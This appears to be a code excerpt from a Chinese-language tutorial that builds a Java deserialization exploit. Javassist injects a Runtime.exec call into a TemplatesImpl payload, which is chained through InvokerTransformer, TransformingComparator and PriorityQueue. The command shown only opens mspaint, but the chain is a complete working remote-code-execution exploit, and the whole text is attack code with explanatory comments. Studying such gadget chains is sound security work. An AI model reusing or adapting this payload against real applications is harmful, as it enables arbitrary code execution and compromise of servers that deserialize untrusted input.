 	        CtClass placeholder = classPool.get(Placeholder.class.getName());
	        placeholder.setSuperclass(classPool.get(Class.forName(abstractTransletClassPath).getName()));
	        // 这里insertBefore还是After都一样，反正都是在静态初始化块里写代码
	        placeholder.makeClassInitializer().insertBefore("java.lang.Runtime.getRuntime().exec(\"mspaint\");");
	        placeholder.setName("EvalClass");
	        // 得到恶意类的字节码
	        byte[] evalByte = placeholder.toBytecode();
	
	        TemplatesImpl templates = TemplatesImpl.class.getConstructor(new Class[0]).newInstance();
	        Class<? extends TemplatesImpl> clazz = templates.getClass();
	        // 将恶意字节码填充到TemplatesImpl对象中
	        Field bytecodes = clazz.getDeclaredField("_bytecodes");
	        bytecodes.setAccessible(true);
	        bytecodes.set(templates,new byte[][]{evalByte});
	
	        // 还需要设置TemplatesImpl对象的_name属性，否则不能顺利执行：TemplatesImpl#getTransletInstance()
	        Field name = clazz.getDeclaredField("_name");
	        name.setAccessible(true);
	        name.set(templates,"p1n93r");
	
	        // 现在TemplatesImpl准备好了，需要一个类反序列化时触发：TemplatesImpl#newTransformer
	        // 使用PriorityQueue类反序列化触发
	        PriorityQueue<Object> res = new PriorityQueue<>(2);
	        // 为啥不在这个地方添加TemplatesImpl对象：因为add操作会触发比较，而TemplatesImpl没有实现Comparable接口
	        // 所以只能后面用反射进行添加了
	        res.add(1);
	        res.add(1);
	
	        // 现在将TransformingComparator和TemplatesImpl对象设置到PriorityQueue中，
	        // 使得PriorityQueue反序列化时调用TransformingComparator#tranformer(templatesImpl)，从而触发整个利用链
	        Class<? extends PriorityQueue> resClazz = res.getClass();
	
	        // 先构造一个TransformingComparator
	        InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer", new Class[0], new Object[0]);
	        TransformingComparator newTransformerComparator = new TransformingComparator(invokerTransformer);
	        // 设置PriorityQueue的comparator
	        Field comparator = resClazz.getDeclaredField("comparator");
	        comparator.setAccessible(true);
	        comparator.set(res,newTransformerComparator);
	
	        // 然后将TemplatesImpl对象设置到PriorityQueue中
	        Field queue = resClazz.getDeclaredField("queue");
	        queue.setAccessible(true);
	        queue.set(res,new Object[]{templates,templates});


​	
	        return res;
	    }
	
	    public static void main(String[] args) throws Exception{
	        Object payload = getPayload();
	        SerialUtil.runPayload(payload);
	    }
	